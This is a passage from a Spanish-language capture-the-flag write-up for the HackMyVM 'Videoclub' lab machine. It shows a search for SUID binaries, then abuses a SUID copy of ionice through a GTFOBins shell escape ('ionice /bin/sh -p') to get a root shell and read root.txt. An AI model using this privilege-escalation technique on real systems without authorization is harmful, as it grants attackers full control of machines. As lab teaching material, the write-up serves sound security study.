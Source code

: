 Una vez actualizada la tty, vamos a escalar privilegios, ya que ya hemos leido la flag user.txt

Si buscamos archivos con permisos SUID veremos un archivo que llama la atención:

```bash
www-data@video-club-margarita:/home$ find / -perm /4000 -type f 2>/dev/null
/home/librarian/ionice
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/bin/newgrp
/usr/bin/su
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chsh
/usr/bin/umount
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/gpasswd
```
Tenemos el archivo ionice con permisos SUID, es el que usaré para escalar privilegios.

Como de costumbre me dirijo a la web [https://gtfobins.github.io/gtfobins/ionice/](https://gtfobins.github.io/gtfobins/ionice/)

![](/assets/images/HMV/Videoclub-HackMyVM/gtfobins.webp)

Ejecutamos el comando que nos indica la web:

> `/home/librarian/ionice /bin/sh -p`

Y ya somos root y ya podemos leer la flag root.txt

![](/assets/images/HMV/Videoclub-HackMyVM/root.webp)

